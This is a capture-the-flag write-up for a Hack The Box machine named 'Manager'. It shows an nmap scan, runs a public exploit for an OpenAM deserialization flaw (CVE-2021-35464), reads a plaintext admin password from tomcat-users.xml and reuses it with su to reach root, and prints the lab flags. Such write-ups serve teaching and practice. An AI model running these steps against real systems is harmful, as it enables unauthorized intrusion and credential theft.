


# Manager


By doing a quick scan we can notice an Apache Tomcat on port 8080.
```
Nmap scan report for 10.129.172.131
[...]
Host is up (0.19s latency).                                                                                                                                              
8080/tcp  open     http        Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```



This version of OpenAM is vulnerable to a deserialization attack.
The exploit can be found [here](https://www.exploit-db.com/exploits/50131).

```
Mon Jul 26 22:31:45 wil@pwn:~/htb/business_ctf/boxes/manager$ python3 CVE-2021-35464.py -c whoami
[?] Please enter the URL [http://192.168.0.100:7080/openam] : http://manager.htb:8080/openam/
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "whoami" now:

tomcat
```
By running this exploit can we establish a revshell to grab the user flag:



```
tomcat@manager:~$ cat /opt/tomcat/user.txt
cat /opt/tomcat/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

When digging into Tomcat configuration we noticed a password in the tomcat-users.xml file.
```
tomcat@manager:~/conf$ cat /opt/tomcat/conf/tomcat-users.xml
[...]
 <role rolename="admin-gui"/>
  <user username="admin" password="BXJ^JA3y4!nE8x9q" roles="admin-gui"/>
```

This password is actually the root password. We can complete the boxe by running su and grab the root flag.
```
tomcat@manager:~/conf$ su
Password: BXJ^JA3y4!nE8x9q
root@manager:/opt/tomcat/conf# id
uid=0(root) gid=0(root) groups=0(root)
root@manager:/opt/tomcat/conf# cat /root/root.txt
cat /root/root.txt
HTB{p455w0rd_r3us3_c4n_l34d_t0_syst3m_4bus3}
```